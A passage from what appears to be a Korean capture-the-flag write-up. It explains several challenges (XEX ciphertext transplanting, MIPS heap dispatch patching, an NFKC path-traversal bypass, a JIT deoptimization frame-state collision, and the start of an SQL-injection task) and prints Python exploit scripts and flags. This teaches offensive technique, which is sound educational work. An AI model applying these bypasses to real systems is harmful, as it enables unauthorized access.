    "합류·교차 검증·출처 기록을 하나의 보존 후보 편집본으로 묶어 주세요.",
    [r4, r5, mirror],
)
r7, _ = submit(r7_name, MODE_REQUESTS[relay_modes[r7_name]], [r6, curator])
r8, _ = submit(r8_name, MODE_REQUESTS[relay_modes[r8_name]], [r7, mirror])
_, state = submit(
    "NOTARY", "봉인된 편집 기록을 공식 보존 기록으로 발행해 주세요.", [r8, r5, curator]
)

match = next(
    (re.search(r"SHA\{[^}]+}", post["text"]) for post in state["posts"] if "SHA{" in post["text"]),
    None,
)
if not match:
    raise RuntimeError("flag was not published")
print(match.group(0))
```
### 2.3 폐기하기 전에 보관소부터 열어 주십시오

| 항목 | 내용 |
|---|---|
| 의뢰인 | `LAST_DONOR` |
| 분야 | Crypto / Pwnable |
| 난이도 | 하 |
| 제공 파일 | `DONOR-player.zip` |
| 핵심 원리 | 4비트 tweak class 충돌과 무결성 검증이 없는 XEX 암호문 이식 |
| 목표 | 세 번의 암호문 이식으로 maintenance·UID·vault capability 복구 |
| 플래그 | `SHA{transpl4nted_c1ph3rt3xt}` |



*그림 6. 폐기 예정 보안 프로세서 의뢰 화면.*
{: .text-center }

이 의뢰는 폐기 예정 보안 프로세서의 암호화 메모리에서 보관소 권한을 복구하는 문제입니다. 프로세서는 64개의 16바이트 블록을 XEX 형태로 암호화하지만, 위치별 tweak를 계산할 때 다음 4비트 값만 사용합니다.

```text
delta_j = AES_K(N) * alpha^j
C_i     = AES_K(P_i xor delta_j) xor delta_j
```

```text
j(i) = ((5 * i) xor 3 xor (i >> 2)) & 15
```

64개 주소가 16개의 tweak class로 줄어들어 하나의 class에 네 주소가 속합니다. XEX 암호문에 별도의 무결성 검사가 없으므로, 같은 class에 있는 유효 암호문을 다른 주소로 옮겨도 정상 평문으로 복호화됩니다.

#### 1. 정책 VM과 epoch 복구

분석용 ELF에는 tweak class 분류, PRNG 전이, 물리 배치 seed와 정책 레코드 seed를 계산하는 32비트 stack VM이 들어 있습니다. opcode와 bytecode를 복구하면 epoch별 tweak-class 보존 Fisher-Yates 순열과 정책 레코드 위치를 계산할 수 있습니다.

시작 메시지의 session stamp에는 xorshift 전이와 홀수 곱셈 기반 affine permutation이 적용되어 있습니다. 이를 역산해 현재 연결의 epoch를 얻고 `sheath` 명령으로 같은 연결에서 사용할 암호문을 수집합니다.

#### 2. 세 번의 암호문 이식

서버가 허용하는 쓰기 횟수는 정확히 세 번입니다. 시작 메시지의 session stamp에서 현재 epoch를 복구하고, 공개된 배치 규칙으로 maintenance donor와 target의 물리 위치를 계산합니다.

1. 첫 번째 `transplant`로 maintenance 권한을 활성화합니다.
2. `diagnose`가 반환한 routing capsule에서 현재 연결의 route를 복구합니다.
3. 정책 VM에 route를 입력해 UID와 vault capability의 donor·target을 계산합니다.
4. 남은 두 번의 `transplant`로 두 권한을 이식합니다.
5. `attest`를 실행해 보관소를 엽니다.

연결이 바뀌면 epoch, 키와 routing nonce가 모두 달라지므로 세 번의 이식과 검증을 하나의 TCP 연결에서 끝내야 합니다.

```text
connect → recover epoch → sheath
        → transplant maintenance
        → diagnose → recover route
        → transplant UID
        → transplant vault capability
        → attest
```

```text
SHA{transpl4nted_c1ph3rt3xt}
```

#### 3. exploit

```python
import argparse
import re
import socket

POLICY_CLASSES = (3, 8, 13)


def tweak_class(i):
    return ((i * 5) ^ 3 ^ (i >> 2)) & 15


def step(x):
    x ^= (x << 7) & 0xFFFFFFFF
    x ^= x >> 9
    x ^= (x << 13) & 0xFFFFFFFF
    return x & 0xFFFFFFFF


def undo_left(value, shift):
    result = value
    for _ in range(6):
        result = value ^ ((result << shift) & 0xFFFFFFFF)
    return result & 0xFFFFFFFF


def undo_right(value, shift):
    result = value
    for _ in range(6):
        result = value ^ (result >> shift)
    return result & 0xFFFFFFFF


def unstep(value):
    return undo_left(undo_right(undo_left(value, 13), 9), 7)


def recover_epoch(stamp):
    affine = (unstep(stamp) - 0x7F4A7C15) & 0xFFFFFFFF
    return (affine * pow(0x9E3779B1, -1, 1 << 32)) & 0xFFFFFFFF


def recover_route(epoch, capsule):
    return unstep(capsule) ^ rol32(epoch, 7) ^ 0xA5C31F27


def layout(epoch):
    state, result = epoch ^ 0x6DA57C63, list(range(64))
    for group in range(16):
        logical = [i for i in range(64) if tweak_class(i) == group]
        physical = logical[:]
        for i in range(len(physical) - 1, 0, -1):
            state = step(state)
            j = state % (i + 1)
            physical[i], physical[j] = physical[j], physical[i]
        for src, dst in zip(logical, physical):
            result[src] = dst
    return result


def policy_positions(epoch):
    state = epoch ^ 0xC40BE191
    donors = []
    targets = []
    for group in POLICY_CLASSES:
        members = [i for i in range(64) if tweak_class(i) == group]
        state = step(state)
        donor_at = state % len(members)
        state = step(state)
        target_at = (donor_at + 1 + state % (len(members) - 1)) % len(members)
        remaining = [i for i in range(len(members)) if i not in (donor_at, target_at)]
        state = step(state)  # decoy selection consumes the third PRNG output
        donors.append(members[donor_at])
        targets.append(members[target_at])
    return donors, targets


def rol32(value, count):
    return ((value << count) | (value >> (32 - count))) & 0xFFFFFFFF


def routed_epoch(epoch, route):
    return epoch ^ rol32(route, 11) ^ 0x51A7C3D9


parser = argparse.ArgumentParser()
parser.add_argument("host", nargs="?", default="crypto.roomescapectf2026.site")
parser.add_argument("port", nargs="?", type=int, default=40577)
args = parser.parse_args()

with socket.create_connection((args.host, args.port)) as sock:

    def until(marker=b"donor> "):
        data = b""
        while marker not in data:
            part = sock.recv(4096)
            if not part:
                raise EOFError
            data += part
        return data

    banner = until()
    stamp = int(re.search(rb"session stamp:([0-9a-f]{8})", banner).group(1), 16)
    epoch = recover_epoch(stamp)
    order = layout(epoch)
    public_donors, public_targets = policy_positions(epoch)
    sock.sendall(b"sheath\n")
    blocks = {int(i): v for i, v in re.findall(rb"(\d{2}):([0-9a-f]{32})", until())}
    source, target = public_donors[0], public_targets[0]
    sock.sendall(f"transplant {order[target]} ".encode() + blocks[order[source]] + b"\n")
    assert until().splitlines()[0].startswith(b"accepted")
    sock.sendall(b"diagnose\n")
    diagnostic = until()
    capsule = int(re.search(rb"routing capsule:([0-9a-f]{8})", diagnostic).group(1), 16)
    route = recover_route(epoch, capsule)
    private_donors, private_targets = policy_positions(routed_epoch(epoch, route))
    for source, target in zip(private_donors[1:], private_targets[1:]):
        sock.sendall(f"transplant {order[target]} ".encode() + blocks[order[source]] + b"\n")
        assert until().splitlines()[0].startswith(b"accepted")
    sock.sendall(b"attest\n")
    print(until().splitlines()[0].decode())
```
### 2.4 폐기 단말에 남은 실행 기록을 복구해 주세요

| 항목 | 내용 |
|---|---|
| 의뢰인 | `JUNKMAN_0xDEAD!` |
| 분야 | Pwnable |
| 난이도 | 중 |
| 제공 파일 | `No-Stack-Still-Turing-player.zip` |
| 핵심 원리 | 같은 동작을 수행하는 함수 별칭과 숨은 경로 상태의 불일치 |
| 목표 | 제한된 14개 패치로 28단계 힙 실행 체인 복구 |
| 플래그 | `SHA{cross_backend_pcode_refinement_requires_real_execution}` |



*그림 7. 폐기 단말 실행 기록 복구 의뢰 화면.*
{: .text-center }

이 문제에는 스택 오버플로도 임의 주소 쓰기도 없습니다. 참가자가 수정할 수 있는 대상은 힙의 dispatch node와 함수 ID이며, 패치는 `ABS32` 두 개와 `HEAP32` 열두 개로 제한됩니다.

`target.elf`에는 360개의 MIPS32 함수가 섞여 있고, `goal.pcode`에는 목표가 되는 28단계 상태 전이가 들어 있습니다. `memory.img`에는 실제 실행 체인을 이루는 비연속적인 28개 힙 노드와 여섯 개의 잘못된 노드가 존재합니다.

#### 1. 360개 MIPS32 함수 분류

먼저 ELF의 program header와 function table에서 함수 주소를 복구합니다. 여덟 입력 vector에 대해 360개 함수를 에뮬레이션하고, 각 함수의 가시 상태 전이를 `goal.pcode`와 비교합니다.

함수마다 register allocation, state와 argument pointer bias, load 순서와 rotate 구현이 다릅니다. 따라서 명령어 바이트의 고정 위치만 읽는 방식이 아니라 실제 MIPS 의미를 실행해야 합니다. 각 STEP과 여덟 vector의 `W[0..7]` 전이가 같은 함수는 정확히 여덟 개씩 남습니다.

#### 2. 힙 노드와 숨은 경로 복구

하나의 가시 동작에는 여덟 개의 별칭 함수가 존재하지만, 각 함수는 서로 다른 64비트 숨은 경로 상태를 갱신합니다. 따라서 출력값만 맞는 함수를 고르면 최종 검증을 통과할 수 없습니다. 여섯 복구 위치에서 가능한 조합은 `8^6 = 262,144`개이며, 최종 경로 상태와 일치하는 조합을 찾아야 합니다.

`memory.img`에서 guard 식이 성립하는 비연속 28개 노드 체인을 찾습니다. 정상인 22개 노드는 기존 함수 ID를 유지하고, 동작이 틀린 여섯 노드만 교체 대상으로 삼습니다. 별칭 함수들을 서로 다른 세 경로 입력으로 실행하면 각 함수가 적용하는 두 항과 회전값을 역산할 수 있습니다.

#### 3. 14개 patch record 작성

최종 payload는 시작 포인터와 argument bias를 수정하는 `ABS32` 두 개, 여섯 노드의 함수 ID와 guard를 수정하는 `HEAP32` 열두 개로 구성됩니다. checker는 최종 상태뿐 아니라 단계별 함수 ID, 노드, 전후 상태와 route를 receipt로 검증합니다.

| 패치 종류 | 개수 | 역할 |
|---|---:|---|
| `ABS32` | 2 | 시작 포인터와 argument bias 수정 |
| `HEAP32` | 6 | 잘못된 노드의 함수 ID 수정 |
| `HEAP32` | 6 | 변경된 함수에 맞는 guard 수정 |

```text
SHA{cross_backend_pcode_refinement_requires_real_execution}
```

#### 4. exploit

```python
#!/usr/bin/env python3
"""Patch the public memory image and verify it with the provided checker."""

from __future__ import annotations

import os
import shutil
import struct
import subprocess
import tempfile
from pathlib import Path

START_PC = 0x0760
KEY_DISPLACEMENT = 0
COOKIE = 0xC3D2E1F0
HANDOUT_FILES = (
    "checker",
    "flag.enc",
    "goal.pcode",
    "memory.img",
    "payload.template.bin",
    "target.elf",
    "vectors.bin",
)

# (node offset in memory.img, replacement target function ID)
REPLACEMENTS = (
    (0x0270, 221),
    (0x0D80, 174),
    (0x0F20, 201),
    (0x0970, 355),
    (0x0E50, 29),
    (0x0830, 207),
)


def locate_handout() -> Path:
    configured = os.environ.get("NSST_HANDOUT_DIR")
    candidates = (
        [Path(configured)]
        if configured
        else [
            Path.cwd(),
            Path(__file__).resolve().parents[1],
            Path(__file__).resolve().parents[1].parent / "for_user",
        ]
    )
    for candidate in candidates:
        resolved = candidate.resolve()
        if all((resolved / name).is_file() for name in HANDOUT_FILES):
            return resolved
    raise RuntimeError("run from a no-stack-still-turing for_user directory")


def rol32(value: int, count: int) -> int:
    return ((value << count) | (value >> (32 - count))) & 0xFFFFFFFF


def build_payload(template_path: Path, memory_path: Path) -> bytes:
    payload = bytearray(template_path.read_bytes())
    memory = memory_path.read_bytes()
    if len(payload) != 0xB8 or payload[:4] != b"NSST":
        raise ValueError("unexpected payload template")

    struct.pack_into("<I", payload, 0x18, START_PC)
    struct.pack_into("<I", payload, 0x24, KEY_DISPLACEMENT)

    for replacement_no, (node_offset, new_function_id) in enumerate(REPLACEMENTS):
        _old_id, argument_offset, next_offset, _old_guard = struct.unpack_from(
            "<4I", memory, node_offset
        )
        new_guard = rol32(new_function_id ^ argument_offset ^ next_offset ^ COOKIE, 7)
        for write_no, (offset, value) in enumerate(
            ((node_offset, new_function_id), (node_offset + 12, new_guard))
        ):
            record = 2 + replacement_no * 2 + write_no
            struct.pack_into(
                "<BBHII",
                payload,
                0x10 + record * 12,
                2,
                0,
                offset,
                0,
                value,
            )
    return bytes(payload)


def solve() -> str:
    handout = locate_handout()
    payload = build_payload(handout / "payload.template.bin", handout / "memory.img")
    with tempfile.TemporaryDirectory(prefix="nsst-reference-") as directory:
        work = Path(directory) / "handout"
        work.mkdir()
        for name in HANDOUT_FILES:
            shutil.copy2(handout / name, work / name)
        (work / "payload.bin").write_bytes(payload)
        completed = subprocess.run(
            [str(work / "checker")],
            cwd=work,
            text=True,
            capture_output=True,
            env=os.environ.copy(),
        )
    output = completed.stdout.strip()
    if completed.returncode or not (output.startswith("SHA{") and output.endswith("}")):
        raise RuntimeError(completed.stderr.strip() or output or "native checker rejected payload")
    return output


def main() -> None:
    print(solve())


if __name__ == "__main__":
    main()
```
### 2.5 응답 없는 센서 세 대를 다시 연결해 주세요

| 항목 | 내용 |
|---|---|
| 의뢰인 | `S0LDER.GUN_9` |
| 분야 | Reversing |
| 난이도 | 하 |
| 제공 파일 | `Ghost-Callback-player.zip` |
| 핵심 원리 | 서명 검증 전후의 퍼센트 디코딩·NFKC 경로 해석 차이 |
| 목표 | 업데이트 경계를 우회하고 세 장치의 콜백 체인 복구 |
| 플래그 | `SHA{one_semantic_policy_wakes_the_entire_ghost_fleet}` |



*그림 8. 응답 없는 센서의 콜백 복구 의뢰 화면.*
{: .text-center }

이 의뢰는 서명된 업데이트 패키지로 세 ARM Thumb 센서의 calibration 파일을 바꾸고, 펌웨어에 숨겨진 콜백 체인을 복구하는 문제입니다.

업데이트 검증기는 원본 경로에서 일반적인 `..` 패턴을 차단하지만, extractor는 퍼센트 디코딩과 NFKC 정규화를 거친 경로를 사용합니다. 퍼센트 인코딩된 전각 마침표는 검증 단계에서는 안전한 하위 경로로 보이지만, 정규화 이후 부모 경로가 되어 calibration 파일을 덮어쓸 수 있습니다.

#### 1. 업데이트 경계 우회

서명된 manifest는 세 펌웨어와 원래 calibration의 TAR 경로와 해시를 검증합니다. 그러나 이후 단계는 URL 퍼센트 디코딩과 NFKC를 적용하고, C extractor는 변환된 경로에서 부모 경로를 다시 해석합니다.

직접적인 `%2e%2e`는 중간 검사에서 거부됩니다. 대신 `extras/` 아래에 퍼센트 인코딩된 전각 마침표 두 개를 넣으면 원본 경로 검사와 서명 검증을 통과한 뒤 NFKC에서 `..`로 변환됩니다. 이 항목으로 generation 18 calibration을 덮어씁니다.

#### 2. 실제 콜백 테이블 식별

각 64 KiB 펌웨어에는 96개의 유효 Thumb 주소로 이루어진 포인터 테이블이 세 개 있습니다. 세 테이블 모두 주소 범위와 함수 prologue 검사를 통과하지만 두 개는 decoy입니다. vector table에서 ISR을 찾고 ISR의 dataflow가 실제로 참조하는 테이블을 선택해야 합니다.

콜백은 고정 간격으로 배치되지 않으며 XOR, ADD, SUB, rotate, NOT을 조합한 여섯 코드 생성 방식으로 만들어집니다. 특정 바이트 패턴을 찾는 대신 Unicorn에서 함수를 실행하고 첫 guard 비교 시점의 register와 여러 경로 입력의 출력을 관찰해 다음 값을 복구합니다.

- 입력 guard와 다음 guard
- 두 개의 32비트 route term
- 두 rotate 값
- register 변환 상수

#### 3. 콜백 체인 분석

세 펌웨어에서 vector table과 ISR의 dataflow를 추적해 실제 콜백 포인터 테이블을 찾습니다. 이후 각 콜백을 Unicorn에서 격리 실행해 guard와 두 경로 상태의 전이를 기록합니다.

각 장치에는 20단계의 경로가 있으며 단계마다 네 가지 선택지가 존재합니다. 전체를 전수 조사하지 않고 앞뒤 10단계로 나눈 meet-in-the-middle을 사용하면 유일한 콜백 체인을 복구할 수 있습니다.

```text
a' = ROR32(a xor term0, rot0) + b
b' = ROR32(b xor term1, rot1) + a'
```

이 전이는 역산할 수 있으므로 앞쪽 `4^10` 상태를 저장한 뒤 최종 상태에서 뒤쪽 10단계를 거꾸로 탐색합니다. 세 장치는 서로 다른 선택 벡터를 사용하므로 한 장치에서 찾은 분기 번호를 다른 장치에 그대로 적용할 수 없습니다.

#### 4. 이벤트 생성과 플래그 복호화

세 장치에서 얻은 route proof로 calibration seed와 channel permutation을 계산하고 `events_a.json`부터 `events_c.json`을 작성합니다. 장치 실행기가 생성한 transcript, 실제 설치 의미를 기록한 receipt와 firmware digest를 조합하면 `flag.enc`의 ChaCha20-Poly1305 키가 완성됩니다.

```text
SHA{one_semantic_policy_wakes_the_entire_ghost_fleet}
```

#### 5. exploit

전체 익스플로잇 코드는 [GitHub 저장소](https://github.com/GEONWOOHAN/room_escape_ctf/blob/main/blog-exploits/extra-requests/ghost-callback-exploit.py)에서 확인할 수 있습니다.
### 2.6 금고가 열린 순간의 영상을 찾아 주세요

| 항목 | 내용 |
|---|---|
| 의뢰인 | `FRAME_GHOST` |
| 분야 | Reversing |
| 난이도 | 중 |
| 제공 파일 | `Phantom-Frame-player.zip` |
| 핵심 원리 | `namespace`와 `frame` 상위 비트를 누락한 deoptimization frame state 키 충돌 |
| 목표 | `reference`에서는 실패하고 세 최적화 프로필에서 성공하는 `candidate.pbc` 제작 |
| 플래그 | `SHA{phantom_frames_survive_optimization}` |



*그림 9. 금고 영상 복구 의뢰 화면.*
{: .text-center }

이 의뢰는 하나의 `candidate.pbc`가 `reference` 실행에서는 실패하고 alpha·beta·gamma 최적화 프로필에서는 모두 성공하도록 만드는 VM 리버싱 문제입니다.

#### 1. PPBC 형식과 opcode 복구

세 sample과 `phantom_vm` loader를 비교하면 32바이트 header, constant table, 16바이트 function descriptor, 2·4·8바이트 명령과 마지막 SHA-256으로 구성된 PPBC 형식을 복구할 수 있습니다. stripped runner의 descriptor table을 분석해 빌드마다 달라지는 opcode 순열도 되찾습니다.

`reference`와 `baseline`은 사용자 local과 내부 보안 local을 분리합니다. 최적화 계층은 main loop의 OSR 지점에서 프로필이 선택한 함수를 인라인하고, 예외 처리 경로에서 사용할 deoptimization frame state를 생성합니다.

취약점은 deoptimization frame state를 저장하는 빠른 경로가 local의 전체 식별자 대신 축약된 키를 사용하는 데 있습니다.

```text
full  = namespace:2 || inline_frame:10 || slot:12
short = inline_frame_low4 || slot_low12
```

#### 2. 세 프로필에 공통인 충돌 구성

공격자가 제어하는 local을 `(User, frame=1, slot=13)`에 배치하고, alpha·beta·gamma의 내부 root local을 각각 frame 17·33·49의 slot 13에 배치합니다. 전체 ID는 다르지만 축약 키는 모두 `0x100d`로 충돌합니다.

프로필마다 최적화를 중단시키는 조건은 서로 다릅니다.

- alpha: signed overflow
- beta: shape mismatch
- gamma: bounds speculation failure

| 프로필 | 내부 guard frame | padding call | trap |
|---|---:|---:|---|
| alpha | 17 | 14 | signed overflow |
| beta | 33 | 30 | shape mismatch |
| gamma | 49 | 46 | bounds speculation failure |

padding call 수와 bytecode 배치를 조정해 세 trap을 하나의 candidate에 구성합니다. uncommon trap 이후 복원기가 충돌한 frame state를 사용하면 공격자 local이 내부 shadow capability로 복원됩니다.

#### 3. `reference` 실패와 의미 증명 검증

`reference` 실행에는 최적화와 deoptimization 과정이 없으므로 동일한 candidate가 실패합니다. 반면 세 최적화 프로필에서는 각각의 uncommon trap 이후 잘못 복원된 capability가 하나뿐인 sink에 도달합니다.

최종 배포본의 checker는 참가자가 관리자 전용 reference 함수의 바이트열이나 SHA-256 preimage를 그대로 재현하도록 요구하지 않습니다. 세 실행에서 관찰한 주소, register, 구체적인 deopt ID와 함수 구조처럼 빌드에 종속되는 값은 제거하고, 프로필 종류·trap 원인·namespace 전환·frame 관계를 152바이트 canonical transcript로 정규화합니다. 공개 프로필에 들어 있는 대상값은 이 transcript의 SHA-256입니다.

따라서 검증 대상은 비공개 함수와 동일한 바이트열이 아니라 같은 frame-state 충돌 의미를 재현했는지 여부입니다. checker는 `reference` 실패, 세 프로필의 성공 transcript와 seal을 함께 확인한 뒤 플래그 복호화 키를 만듭니다.

```text
HKDF-SHA256(
    raw_transcript || seal_alpha || seal_beta || seal_gamma,
    salt,
    "phantom-frame-v1"
)
```

따라서 checker의 성공 분기만 패치하거나 snapshot에서 root object를 직접 읽는 방식으로는 인증된 transcript와 세 seal을 만들 수 없습니다. 이 키로 `flag.enc`의 XChaCha20-Poly1305 인증을 통과해야 최종 플래그가 복호화됩니다.

```text
SHA{phantom_frames_survive_optimization}
```

#### 4. exploit

```python
#!/usr/bin/env python3
from pathlib import Path
import subprocess
import sys

HERE = Path(__file__).resolve().parent
USER = HERE.parents[1] / "for_user"
sys.path.insert(0, str(HERE))

from recover_format import recover_opcodes
from synthesize_collision_net import synthesize


def build_candidate() -> None:
    encoded = synthesize().assemble(recover_opcodes())
    (USER / "candidate.pbc").write_bytes(encoded)


def main() -> None:
    candidate = USER / "candidate.pbc"
    original = candidate.read_bytes()
    try:
        build_candidate()
        subprocess.run([str(USER / "checker")], cwd=USER, check=True)
        subprocess.run([str(USER / "unwrap")], cwd=USER, check=True)
    finally:
        candidate.write_bytes(original)
        (USER / "receipt.bin").unlink(missing_ok=True)


if __name__ == "__main__":
    main()
```

### 2.7 고양이는 자고 있었는데 참치는 누가 먹었죠?

| 항목 | 내용 |
|---|---|
| 의뢰인 | `EMPTY_BOWL` |
| 분야 | Web |
| 난이도 | 하 |
| 제공 파일 | 실제 플래그만 더미로 치환한 `app.py` |
| 초기 계정 | `guest / guest` |
| 핵심 원리 | 사용자 입력을 직접 이어 붙인 로그인 SQL 쿼리 |
| 목표 | 로그인 SQL Injection으로 운영자 전용 사건 정보 확인 |
| 플래그 | `SHA{wh0_ate_the_tuna_at_0404}` |



*그림 10. 스마트 급식기 사건 의뢰 화면.*
{: .text-center }

이 의뢰는 스마트 급식기의 새벽 이벤트를 조사하는 화이트박스 입문용 웹 문제입니다. 의뢰인은 닷새째 새벽 4시 04분마다 참치가 사라지고 있지만 자신의 고양이 나비는 당시 침대에서 자고 있었다고 설명합니다. 급식기에는 등록하지 않은 목걸이 태그 `MP-C7:04:04`가 남아 있습니다.

